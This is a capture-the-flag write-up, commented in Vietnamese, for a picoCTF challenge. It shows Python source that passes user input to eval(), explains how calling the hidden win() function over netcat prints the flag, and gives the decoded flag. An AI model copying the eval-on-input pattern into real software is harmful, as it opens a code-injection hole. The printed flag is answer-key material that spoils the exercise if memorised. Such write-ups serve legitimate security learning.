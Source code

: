 ### Description 
```
This service can provide you with a random number, but can it do anything else?
Connect to the program with netcat:
$ nc saturn.picoctf.net 61606
The program's source code can be downloaded here.
```
### Solution
- Mở source code lên ta được 1 đoạn mã python, quan sát đoạn mã, thấy rằng nó in ra màn hình bắt người dùng nhập 1 con số 
```
while(True):
  try:
    print('Try entering "getRandomNumber" without the double quotes...')
    user_input = input('==> ')
    eval(user_input + '()')
  except Exception as e:
    print(e)
```
- Tuy nhiên hàm eval lại thực thi dữ liệu nhập vào(), có nghĩa nó đang thực thi hàm bên trong chứ không phải là nhập chữ số
- Tiếp tục thấy hàm win() đang đọc dữ liệu file flag.txt

```
def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)
  
```
- Gọi hàm này và decode byte ta có flag:
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc saturn.picoctf.net 61606
Try entering "getRandomNumber" without the double quotes...
==> win
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d 

```
- ![image](image/1.PNG)
> picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}